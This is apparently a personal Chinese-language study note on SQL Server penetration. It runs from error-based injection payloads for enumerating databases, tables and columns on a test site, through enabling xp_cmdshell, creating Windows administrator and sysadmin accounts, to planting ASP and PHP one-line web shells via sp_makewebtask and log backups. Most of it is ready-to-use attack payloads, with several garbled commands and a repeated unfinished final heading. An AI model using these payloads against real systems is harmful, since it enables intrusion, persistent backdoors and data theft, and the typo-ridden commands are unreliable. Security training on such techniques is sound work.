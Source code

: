 #### sqlserver数据库介绍及操作

默认端口1433；

创建一个数据库，默认创建在路径中web.mdf;

任务，分离，删除链接，然后把创建的文件在默认路径中删掉就可以了；



1. 基础的查询语句：增删改查

   ` select * from table`

2. 数据库权限

   sa、db、public权限

   sa权利很大，db相当于普通票哪个用户，public相当于windows的guest用户；

#### 连接调用sqlserver数据库

调用数据库的代码，一般写在配置文件里面config, conn；

```vbscript
<%
    set conn = server.createobject("adodb.connecton")
    conn.open "provider=sqloledb;source=local;uid=sa;pwd=***;database=database-name"
 %>
```

可能在的目录：==inc==/conn.asp，config.asp，web.config

#### sqlserver注入

判断是否有注入

```mssql
1. 判断是否有注入  (会有变化)
and 1=1
and 1=2
/
-0
/*判断注入的方法是一样的*/

2. 初步判断是否是mssql
and user>0

3. 判断数据库系统
and (select count(*) from sysobjects)>0    /*mssql的系统表*/
and (select count(*) from msysobjects)>0   /*access的系统表*/

4. 注入参数是字符
and 

10. 测试权限结构   返回正常的话，就是对应的权限
and 1=(select IS_SRVROLEMEMBER('sysadmin'));--
and 1=(select IS_SRROLEMEMEMBER('serveradmin'));--
and 1=(select IS_SRROLEMEMEMBER('setupadmin'));--
and 1=(select IS_SRROLEMEMEMBER('securityadmin'));--
and 1=(select IS_SRROLEMEMEMBER('diskadmin'));--
and 1=(select IS_SRROLEMEMEMBER('bulkadmin'));--
adn 1=(select IS_MEMBER('db_owner'));--

11. 添加mssql和系统账户
exec master.dbo.sp_addlogin username;--
exec master.dbo.sp_password null, username,password;--
exec master.dbo.sp_addsrvrolemember sysadmin username;--
exec master.dbo.xp_cmdshell username;--
.....

```

- 手工判断注入

  `http://testasp.vulnweb.com/showforum.asp?id=0 '` 

- 获取数据库信息

  `id=1 and 1=(select @@version)  # 因为后面的查询结果是字符类型，转换失败，就爆出错误了`

  `id=@@version   # 等价` 

- 获取当前数据库名称

  `id=1 and 1=(select db_name())  # 也是由于类型不匹配`

- 获取第一个用户数据库

  `and 1=(select top 1 name from master..sysdatabases where dbid>4)`

  *获取从上往下数的第一行的name属性*

  - 判断接下来的数据库:

  `and 1=(select top 1 name from master..sysdatabases where dbid>5)` or

  `and 1=(select top 1 name from master..sysdatabases where dbid>4 and name<>'web')`

  会爆出错误：将nvarchar值'bookmis'转换为int类型时失败

  - ==非常牛逼的一个方法==

  `and 1=(select name from master..sysdatabases for xml path) # 把所有的数据库名按照xml列出`

- 获取第一张表

  `?id=1 and 1=(select top 1 name from sysobjects where xtype='u') #原理就是mssql报错信息`

- 获取表readers的列

  `?id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='readers'))`

- 获取表的数据

  `?id=1 and 1=(select top 1 Reader_id from readers)`

有过滤，如何绕过？

​	比如大小写转换，%0a、+、/**/代替空格； *+ 为什么可以代替空格？*


> 那如果前端做的比较好，不显示报错信息呢？
> syscolumns、sysdatabases 、sysobjects 具体代表了什么？
>  - sysdatabases和数据库信息有关，它的name表示所有的数据库，dbid列是他们的顺序，也是标识符
>  - sysobjects和数据库中的表的信息有关，name是表名，xtype='u'表示用户表，id是表的标识符
>  - syscolumns和表的列属性有关，name是列名，可以通过表的id来选择所属的表。


#### sqlserver另类玩法
#### 

- 利用mssql扩展存储注入攻击

  ```mssql
  1. 检测与恢复扩展存储
  /*判断xp_cmdhshell扩展存储是否存在*/
  and 1=(select name from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell')
  
  /*判断xp_regread扩展存储过程是否存在*/
  and 1=(select count(*) from master.dbo.sysobjects where name='xp_regread')
  
  /*恢复*/
  exec sp_configure 'show advanced options',1,reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;
  exec sp_dropexetendedproc xp_cmdshell, 'xplog70.dll'
  
  2. sa权限下扩展存储攻击 利用方法
  /*安装完插件之后；利用xp_cmdshell扩展，执行任意命令*/
  /*查看C盘*/
  drop table black
  create table black(dire varchar(7996) NULL, id int not null identity(1,1))
  insert into black exec master..xp_cmdshell 'dir C:\' ;
  and 1=(select top 1 dire from black where id=1);
  
  /*新建windows用户*/
  exec master..xp_cmdshell 'net user test test /add'
  exec master..xp_cmdshell 'net localgroup administrators test /add'
  /*添加和删除一个SA权限的而用户test*/
  exec master.dbo.sp_addlogin test,password
  exec master.dbo.sap_addsrvrolemember test,sysadmin
  /*停掉或激活开个服务（need sa）*/
  exec master..xp_servicecontrol 'stop','schedule'
  exec master..xp_servicecontrol 'start','schedule'
  
  /*创建之后登陆，利用远程桌面，连接服务器（打开3389）*/
  
  /*开启远程数据库*/
  select * from OPENROWSET('SQLOLEDB','server=servername;uid=sa;pwd=_123', 
  'select * from table1')
  
  ```

  如果防火墙只允许我访问80，可以把80改成别的，但是会影响原来的呀；——端口转发or源控码

- 利用sp_makewebtask写入一句话木马

  要知道绝对路径，否则写不进去

  `;exec sp_makewebtask 'e:\www_iis\yjh.asp','select''%3C%25%65%76%61%6C%20%72%65%71%75%65%73%74%28%22%63%68%6F%70%70%65%72%22%29%25%3E'''--`

- 写入一句话木马

  找到web目录后，即可写入一句话木马(dbo权限)

  ```mssql
  ;alter database news set RECOVERY FULL 
  ;create table test(str image)-- 
  ;backup log news to disk='c:\test' with init-- 
  ;insert into test(str)values ('<%excute(request("cmd"))%>')-- 
  ;backup log news to disk='c:\inetpub\wwwroot\yjh.asp'-- 
  ;alter database news RECOVERY simple
  ```
   [扩展参考](https://www.cnblogs.com/shanmao/archive/2012/11/15/2770878.html)

> 端口转发
>
> 一句话木马是什么
>
> ​		 最直白的形式：把<%execute(request("value"))%>插入	到网页里。
>
> 一句话木马能干嘛
>
> ​	- 似乎是执行远程的value值，这个值是命令
>
> 一句话木马怎么写
>
> ​	- <%execute(request("value"))%>， <?php @eval($_POST[value]);?>

#### sqlserver差异备份、完全备份、权限入侵

#### sqlserver差异备份、完全备份、权限入侵
